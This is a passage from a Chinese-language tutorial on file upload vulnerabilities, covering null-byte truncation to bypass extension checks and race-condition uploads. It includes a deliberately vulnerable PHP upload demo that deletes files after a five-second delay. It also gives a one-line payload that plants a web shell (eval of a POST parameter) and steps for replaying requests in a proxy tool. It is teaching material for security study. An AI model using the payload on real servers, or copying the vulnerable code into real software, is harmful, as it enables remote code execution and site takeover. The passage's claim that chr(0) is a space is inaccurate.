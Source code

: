 无论**0x00**还是**%00**，最终被解析后都是chr（0），而chr（0）返回的就是一个空格，当一个字符串中存在空字符的时候，在被解析的时候会导致空字符后面的字符被丢弃。那么绕过是怎样发生的呢？  
如：在通过抓包软件将文件1.php.jpg中插入空字符变成：1.php.0x00.jpg中，解析后就会只剩下1.php，但是这样只能绕过前端验证，由于后端验证一般是通过文件上传路径来获取文件后缀的，直接截断是没有所以如果要绕过后端验证，则需要满足两个条件之一：  
1、**文件路径可控**，比如我可以修改路径拼接的path时，比如抓到的包中存在path: uploads/，就可以直接把路径构造成uploads/xxx.php%00  
2、路径拼接直接**使用 $file_name**这个文件名，而不是 $file_ext和其他什么东西来拼成一个文件名字，这时文件名中还是包含截断字符的。


#### 2.2.5 条件竞争
条件竞争漏洞通常涉及到两个或多个操作：一个是文件的上传操作，另一个是对上传文件进行检查或删除的操作。  
在某些情况下，这两个操作之间**存在时间差**，即上传操作完成后，检查或删除操作尚未执行。这段时间内，如果攻击者能够利用这个时间差来执行其他操作（如写入恶意脚本或代码），则可能导致严重的安全后果。

接下来用一个例子进行讲解：
```
<?php 
$uploaddir = 'uploads/';
if(isset($_POST['submit'])){
    if(file_exists($uploaddir)){
        if(move_uploaded_file($_FILES['upfile']['tmp_name'],$uploaddir.'/'.$_FILES['upfile']['name'])){
            $allow_ext = array('.jpg','.jpeg');
            if(in_array($file_ext,$allow_ext)){   //如果文件是jpg或jpeg，那么可以保留并提示上传成功
                echo "上传成功".$uploaddir.'/'.$_FILES['upfile']['name'];
            }
            else{
                sleep(5);  //为了实验更好的体现，程序暂停5秒之后才会删除文件
                unlink($uploaddir.'/'.$_FILES['upfile']['name']);
            }
        }
    }else{
        exit($uploaddir.'文件夹不存在，请手工创建');
    }
}
?>
<html>
    <head>
        <meta charset="utf-8">
        <title>文件上传漏洞演示--竞争上传</title>
    </head>
    <body>
        <h3>文件上传漏洞演示--竞争上传</h3>
        <form action="index.php" method="post" enctype="multipart/form-data" name="upload">
            请选择要上传的文件：<input type="file" name="upfile"/>
            <input type="submit" name="submit" value="上传"/>
        </form>
    </body>
</html>
```
从代码中可以看到，文件上传要是不符合要求，那么会在暂停5秒之后删除文件，在这5秒中，我们可以利用这个时间差来执行其他操作。  
payload：`<?php echo md5(1);fputs(fopen('shell.php','w'),"<?php @eval($_POST[cmd])?>");?>`

上传php文件并抓包设置重放（使用null payloads）